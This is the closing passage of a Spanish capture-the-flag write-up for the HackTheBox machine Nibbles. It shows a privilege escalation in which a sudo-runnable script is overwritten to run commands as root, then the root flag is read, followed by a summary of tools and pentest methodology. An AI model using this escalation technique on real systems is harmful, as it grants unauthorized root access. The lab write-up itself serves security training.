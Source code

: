 ### Modificación y Ejecución del Script
Para explotar esta configuración, modificamos el contenido del script monitor.sh para ejecutar una shell con privilegios de root:

```bash
nibbler@Nibbles:/home/nibbler$ echo -e '#!/bin/bash\nwhoami' > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
root
```
Al ejecutar el script modificado, confirmamos que nuestro usuario ha escalado a root, como se muestra en la salida del comando whoami.

Captura de la Bandera Root
Finalmente, con los privilegios de root asegurados, procedimos a capturar la bandera final localizada en el directorio de root:

```bash
root@Nibbles:/home/nibbler# cat /root/root.txt
cat /root/root.txt
766********************
```


Este paso marca la conclusión exitosa del desafío, habiendo obtenido tanto el acceso como las banderas de usuario y root.


## Conclusiones

En este writeup, hemos explorado detalladamente cómo abordar la máquina NIBBLES en HackTheBox, desde la identificación inicial hasta la escalada de privilegios para obtener acceso root. A continuación, se resumen las herramientas y metodologías clave utilizadas, así como la relevancia de estas habilidades para certificaciones profesionales en seguridad informática.

### Herramientas Utilizadas

- **Nmap**: Utilizado para la identificación de puertos abiertos y servicios.
- **Gobuster** y **feroxbuster**: Herramientas de fuerza bruta para la enumeración de directorios y archivos.
- **Metasploit**: Usado para explotar vulnerabilidades específicas y obtener acceso al sistema.
- **Python**: Empleado para mejorar la interacción con el shell obtenido.

### Metodologías Aplicadas

El proceso de prueba de penetración siguió una metodología estructurada que incluyó:
- **Reconocimiento**: Identificación de puertos y servicios.
- **Enumeración**: Detallar los servicios y buscar configuraciones por defecto o vulnerables.
- **Explotación**: Uso de exploits conocidos para ganar acceso al sistema.
- **Post-explotación**: Escalada de privilegios y captura de banderas (flags).


### Despedida

¡Gracias por seguir este Writeup! Espero que hayas encontrado útiles los métodos y técnicas compartidos. No dudes en utilizar este conocimiento en tus propios retos de seguridad y únete a nosotros en el próximo desafío, donde continuaremos explorando y aprendiendo juntos. ¡Hasta el próximo reto!

